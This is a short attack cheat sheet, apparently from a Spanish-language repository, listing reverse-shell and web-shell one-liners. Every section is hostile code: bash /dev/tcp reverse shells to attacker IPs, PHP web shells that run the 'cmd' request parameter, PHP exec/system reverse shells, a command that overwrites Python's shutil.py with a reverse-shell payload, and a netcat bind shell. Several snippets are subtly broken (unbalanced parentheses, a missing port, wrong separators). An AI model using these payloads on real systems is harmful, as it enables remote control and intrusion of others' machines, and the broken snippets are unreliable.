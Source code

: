 ### Oneliner Bash
```css
bash -c "bash -i >& /dev/tcp/10.10.14.27/9001 0>&1"
```

### Oneliner cmd desde url
```css
<?php 
        echo "<pre>" . shell_exec($_REQUEST['cmd']>
?>
```

### Oneliner php
```python
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/7890 0>&1'"):
```

### Oneliner php
```python
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.85/443 0>&1'")
?>
```

### Oneliner php

```python
<?php
 echo "<pre>" . shell_exec($_GET['cmd']) . ""
```

### Oneliner python
```python
echo "import os; os.system(\"bash -c 'bash -i >& /dev/tcp/10.8.203.6 0>&1'\")" > /usr/lib/python3.8/shutil.py
```

### Blind Shell
```python
# Maquina Victima

nc -nlvp 4646 -e /bin/bash
---------------------------------------------------------------------------------------------------

# Maquina Atacante

nc IPvictima 4646

```
